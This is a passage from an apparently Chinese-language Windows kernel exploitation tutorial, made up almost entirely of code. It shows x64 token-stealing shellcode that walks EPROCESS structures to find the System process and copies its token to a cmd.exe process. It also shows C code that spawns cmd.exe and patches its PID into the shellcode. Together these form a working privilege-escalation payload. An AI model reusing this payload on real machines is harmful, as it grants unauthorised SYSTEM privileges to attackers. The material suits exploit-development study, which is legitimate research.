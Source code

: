 ```
  mov rax, [rax + 0x188]            ; If not found, go to next process
  sub rax, 0x188
  jmp next_process

found_cmd_process:
  mov rbx, rax                     ; Save our cmd.exe EPROCESS for later

find_system_process:
  cmp dword [rax + 0x180], 0x00000004  ; Search for PID 4 (System process)
  je found_system_process
  mov rax, [rax + 0x188]
  sub rax, 0x188
  jmp find_system_process

found_system_process:
  mov rcx, [rax + 0x208]            ; Take TOKEN from System process
  mov [rbx+0x208], rcx              ; And copy it to the cmd.exe process

  pop rdi
  pop rsi
  pop rcx
  pop rbx
  pop rax
```

剩下要做的，就是产生一个新的cmd.exe进程，并更新我们的Shellcode来搜索正确的进程PID：

```
STARTUPINFOA si;
PROCESS_INFORMATION pi;

ZeroMemory(&amp;si, sizeof(STARTUPINFO));
ZeroMemory(&amp;pi, sizeof(PROCESS_INFORMATION));

si.cb = sizeof(STARTUPINFOA);
if (!CreateProcessA(
    NULL,
    (LPSTR)"cmd.exe",
    NULL,
    NULL,
    true,
    CREATE_NEW_CONSOLE,
    NULL,
    NULL,
    &amp;si,
    &amp;pi
)) `{`
    printf("[!] FATAL: Error spawning cmd.exen");
    return 0;
`}`
*(DWORD *)((char *)shellcode + 27) = pi.dwProcessId;
```
